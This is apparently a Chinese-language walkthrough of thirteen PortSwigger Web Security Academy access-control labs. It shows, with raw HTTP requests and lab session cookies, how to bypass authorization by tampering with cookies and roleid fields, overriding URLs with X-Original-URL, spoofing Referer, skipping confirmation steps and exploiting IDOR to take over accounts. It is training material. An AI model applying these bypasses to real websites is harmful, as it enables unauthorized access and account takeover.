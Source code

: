 # Access control

[TOC]

## 1. Unprotected admin functionality

进入`/robots.txt`，发现不允许访问`/administrator-panel`，然后直接访问就好了。

访问之后删除carlos账户。

## 2. Unprotected admin functionality with unpredictable URL

这次的url猜不到，但是可以去js代码里面寻找。

```html
<script>
var isAdmin = false;
if (isAdmin) {
   var topLinksTag = document.getElementsByClassName("top-links")[0];
   var adminPanelTag = document.createElement('a');
   adminPanelTag.setAttribute('href', '/admin-thy42k');
   adminPanelTag.innerText = 'Admin panel';
   topLinksTag.append(adminPanelTag);
   var pTag = document.createElement('p');
   pTag.innerText = '|';
   topLinksTag.appendChild(pTag);
}
</script>
```

发现路径是`/admin-thy42k`。

可以直接进去，然后删除carlos。

## 3. User role controlled by request parameter

用给的账号先登录进去。

抓包后发现`Cookie: Admin=false; session=QX3aOPXjTQUbRbZxj8L7XQFH8QAjs0e7`。

将`Admin`改成`true`，（真就智商按在地上摩擦）。

然后就会发现网页上出现了`Admin panel`。

访问`admin`页面的时候也记得要改cookie。

删除账户的时候也要改cookie。

## 4. User role can be modified in user profile

> It's only accessible to logged-in users with a `roleid` of 2.

访问页面`/admin`，发现`Admin interface only available if logged in as an administrator`。

然后试了好多地方，添加roleid都没用。

当我去更改email的时候，终于在response里面看到了json格式的roleid。

```json
{
  "username": "wiener",
  "email": "aa@aa",
  "apikey": "qzbgMuPZobrRJoEmGuNflaxm4VkBRASs",
  "roleid": 1
}
```

然后用post方式访问admin，将roleid改成2。

```
Content-Type: application/json; charset=utf-8

{
  "username": "wiener",
  "email": "aa@aa",
  "apikey": "qzbgMuPZobrRJoEmGuNflaxm4VkBRASs",
  "roleid": 1
}
```

发现还是不行。

然后在提交`email`的那里，将roleid加入进去发现返回了`"roleid":2`。

然后发现就已经可以进入`/admin`了。

## 5. URL-based access control can be circumvented

> 一些应用框架支持各种非标准的HTTP头，可以用来覆盖原始请求中的URL，如X-Original-URL和X-Rewrite-URL。如果一个网站使用严格的前端控制来限制基于URL的访问，但应用程序允许通过请求头覆盖URL，那么可能会使用类似下面的请求来绕过访问控制。
>
> ```http
> POST / HTTP/1.1
> X-Original-URL: /admin/deleteUser
> ...
> ```

先用这个去访问`/admin`

```http
GET / HTTP/1.1
X-Original-URL: /admin
```

然后访问`/admin/delete?username=carlos`

```http
GET /?username=carlos HTTP/1.1
X-Original-URL: /admin/delete
```

## 6. Method-based access control can be circumvented

这个只在POST请求中才拦截，GET并没有（感觉第二行是没用的）。

```http
GET /admin-roles?username=wiener&action=upgrade HTTP/1.1
X-Original-URL: /admin
```

## 7. User ID controlled by request parameter

自己的网址是`/my-account?id=wiener`

尝试访问`/my-account?id=carlos`

直接搞定。

## 8. User ID controlled by request parameter, with unpredictable user IDs

这下无法猜测id了，但是可以在每篇文章的作者那里看到别人的id。

找到一个`<a href="/blogs?userId=08b0eebb-9110-4b5c-9500-b9f91dcde333">carlos</a>`

访问`/my-account?id=08b0eebb-9110-4b5c-9500-b9f91dcde333`

## 9. User ID controlled by request parameter with data leakage in redirect

访问`/my-account?id=carlos`，虽然给我弹回去了，但是我还是在报文里面看到了信息。

```html
Your username is: carlos
Your API Key is: 3pQpcmai2EPXZkH09iqqaSpZ3W6c3u2T
```

## 10. User ID controlled by request parameter with password disclosure

> To solve the lab, retrieve the administrator's password, then use it to delete `carlos`.

访问`/my-account?id=administrator`。

然后更改密码。发现直接改改的是`wiener`的密码。

再次访问`/my-account?id=administrator`，F12，直接看原本的密码是多少。

```html
<input required="" type="password" name="password" value="gdt4llkv44ew8s9q7n6v">
```

找到原本的密码是`gdt4llkv44ew8s9q7n6v`。

然后登陆`administrator`。

进去删除账号就好了。

## 11. Insecure direct object references

> This lab stores user chat logs directly on the server's file system, and retrieves them using static URLs.

下载聊天记录发现序号是从2开始的，而且下载不需要权限。

尝试访问1.txt，发现这个聊天记录里面包含了别人的聊天记录，里面还有密码。

直接拿去登陆就好了。

## 12. Multi-step process with no access control on one step

这个题改权限之前本来是有验证的，但是这个可以跳过验证。

```http
POST /admin-roles HTTP/1.1
Host: ac391f1a1fc00f0080c0d9aa00a00055.web-security-academy.net
Content-Length: 45
Content-Type: application/x-www-form-urlencoded
Cookie: session=VYZQHDNezoPo6TIXbhOIZ8LL3Bc0Hb2Y

action=upgrade&confirmed=true&username=wiener
```

## 13. Referer-based access control

这个在更改权限的时候只检查Referer头。

```http
GET /admin-roles?username=wiener&action=upgrade HTTP/1.1
Host: ac4f1f611fb5d456804e0342005b0057.web-security-academy.net
Referer: https://ac4f1f611fb5d456804e0342005b0057.web-security-academy.net/admin
Cookie: session=vCUWceknSdBbLlqCLTpqwrTRjvVCTsGh
```

